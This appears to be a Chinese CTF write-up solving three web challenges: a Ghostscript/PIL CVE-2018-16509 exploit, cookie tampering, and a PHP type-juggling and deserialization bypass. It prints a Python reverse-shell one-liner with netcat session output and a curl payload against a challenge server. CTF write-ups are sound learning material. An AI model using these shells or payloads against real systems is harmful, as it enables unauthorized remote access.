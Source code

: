 ### 0x01 resize your image

vulhub [原题](https://github.com/vulhub/vulhub/tree/master/python/PIL-CVE-2018-16509), payload 改一下  

`python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('Your IP',Your Port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"`

```python
$ nc -lvvp 19132
Listening on [0.0.0.0] (family 0, port 19132)
Connection from 212.64.85.131 40172 received!
/bin/sh: 0: can't access tty; job control turned off
# ls
app.py
flag
# cat flag
C1CTF{hello_world}
```

### 0x02 web签到

改一下 cookie 就行, 我用的是 [EditThisCookie](https://chrome.google.com/webstore/detail/edit-this-cookie/fngmhnnpilhplaeedifhccceomclgfbg)

![](https://i.loli.net/2019/03/08/5c826dfb50be6.png)  

![](https://i.loli.net/2019/03/08/5c826e11a3277.png)  

### 0x03 php是世界上最好的语言  

在 http://212.64.85.131/robots.txt 可以找到提示, `Disallow: /flag.zip`, 下下来就可以得到源码, 接下来就是源码审计

1. `($a == $b) + (md5($a) != sha1($b))` 这个很好绕, 传两个值不一样的数组就可以绕过, 比如 `a[1]=1&b[1]=2`. 原理是 md5 和 sha1 对 数组会返回 NULL

```php
php > var_dump(md5(array()));
PHP Warning:  md5() expects parameter 1 to be string, array given in php shell code on line 1

Warning: md5() expects parameter 1 to be string, array given in php shell code on line 1
NULL
```

2.`$token['user'] == "????????" && $token['pass'] == "????????"` 我竟然以为真的要想办法绕过... 后来试了下居然真的只要让 `user=????????` 就行了233

3.`$flag->middle === $flag->left && $flag->middle === $flag->right` 这个绕过第一感觉是不可能, 除非能有像 C++ 那样的引用, 然后百度了一下... 居然真的有这种骚东西 还真的可以序列化 233

如果反序列化这方面有问题的话可以百度一下对应的教程

整合一下得到 payload `curl "http://212.64.85.131/?mode=begin&a[1]=1&b[1]=2" -d 'token=a:2:{s:4:"user";s:8:"????????";s:4:"pass";s:8:"????????";}&flag=O:9:"last_task":3:{s:4:"left";N;s:6:"middle";R:2;s:5:"right";R:2;}'`
